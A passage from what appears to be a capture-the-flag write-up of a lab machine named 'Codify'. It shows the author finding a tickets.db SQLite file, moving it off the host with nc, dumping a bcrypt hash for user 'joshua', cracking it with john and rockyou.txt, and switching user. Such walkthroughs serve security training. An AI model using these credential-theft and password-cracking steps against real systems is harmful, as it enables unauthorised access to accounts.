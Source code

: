 There's a check to see what modules are used via checking for `require`, and it also explains why `node:child_process` was allowed since it only checks for whether `child_process` is required.

### Tickets -> User Password

Within the `/var/www/tickets` directory, there's a `tickets.db` file:

```
svc@codify:/var/www/contact$ ls -la
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12 17:45 .
drwxr-xr-x 5 root root  4096 Sep 12 17:40 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12 17:45 tickets.db

svc@codify:/var/www/contact$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

I transferred this back to my machine via `nc`, and then opened it up with `sqlite3`:

```
$ sqlite3 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open tickets.db
sqlite> .tables
tickets  users

sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash   
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:00:24 DONE (2023-11-04 23:28) 0.04029g/s 55.11p/s 55.11c/s 55.11C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, I could `su` to the user `joshua`.
